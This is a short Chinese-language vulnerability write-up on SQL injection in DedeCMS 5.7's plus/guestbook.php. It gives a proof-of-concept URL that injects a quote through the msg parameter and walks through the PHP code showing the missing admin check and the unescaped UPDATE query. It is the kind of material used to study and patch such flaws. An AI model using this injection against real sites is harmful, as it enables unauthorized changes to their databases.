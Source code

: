 # DedeCMS 5.7 plus/guestbook.php 注入漏洞

## 利用条件

漏洞成功需要条件：

1. php magic_quotes_gpc=off
2. 漏洞文件存在 plus/guestbook.php dede_guestbook 表当然也要存在。

## 漏洞复现

poc:` www.xxx.com/plus/guestbook.php?action=admin&job=editok&msg=sebug'&id=存在的留言ID `

`/plus/guestbook.php`中为对身份进行验证:

```php
if($action=='admin')
{
    include_once(dirname(__FILE__).'/guestbook/edit.inc.php');
    exit();
}
```

`/plus/guestbook/edit.inc.php`

```php
if($job=='editok')
{
    $remsg = trim($remsg);
    if($remsg!='')
    {
        //管理员回复不过滤HTML
        if($g_isadmin)
        {
            $msg = "<div class=\\'rebox\\'>".$msg."</div>\n".$remsg; 
            //$remsg <br><font color=red>管理员回复：</font>
        }
        else
        {
            $row = $dsql->GetOne("SELECT msg From `#@__guestbook` WHERE id='$id' ");
            $oldmsg = "<div class=\\'rebox\\'>".addslashes($row['msg'])."</div>\n";
            $remsg = trimMsg(cn_substrR($remsg, 1024), 1);
            $msg = $oldmsg.$remsg;
        }
    } 
	$msg = HtmlReplace($msg, -1);
    $dsql->ExecuteNoneQuery("UPDATE `#@__guestbook` SET `msg`='$msg', `posttime`='".time()."' WHERE id='$id' ");
    ShowMsg("成功更改或回复一条留言！", $GUEST_BOOK_POS);
    exit();
}
```

其中:

```php
$msg = HtmlReplace($msg, -1);
    $dsql->ExecuteNoneQuery("UPDATE `#@__guestbook` SET `msg`='$msg', `posttime`='".time()."' WHERE id='$id' ");
```

dedecms中的`common.inc.php`,有这样的一段代码

```php
foreach(Array('_GET','_POST','_COOKIE') as $_request)
    {
        foreach($$_request as $_k => $_v) 
		{
			if($_k == 'nvarname') ${$_k} = $_v;
			else ${$_k} = _RunMagicQuotes($_v);
		}
    }
```

它将`_GET`,`_POST`,`_COOKIE`中的变量放出来,而`_RunMagicQuotes`

```php
function _RunMagicQuotes(&$svar)
{
    if(!get_magic_quotes_gpc())
    {
        ...
    }
    return $svar;
}
```



所以`magic_quotes_gpc=off`的情况下便会引起sql注入





## 参考

 https://www.seebug.org/vuldb/ssvid-89599 